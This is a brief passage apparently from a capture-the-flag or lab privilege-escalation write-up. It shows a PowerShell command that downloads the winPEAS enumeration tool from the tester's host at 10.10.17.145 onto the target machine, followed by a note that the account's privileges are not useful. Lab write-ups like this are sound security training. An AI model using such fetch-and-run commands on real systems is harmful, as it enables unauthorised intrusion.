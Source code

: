 ![](./IMG/26.png)


> By the way, I use the following command to upload 

```
iwr -uri http://10.10.17.145/winPEASx64.exe -OutFile winpeas.exe
```

> Check whoami privilege 
> It doesn't enable any usefule privilege 


![](./IMG/25.png)
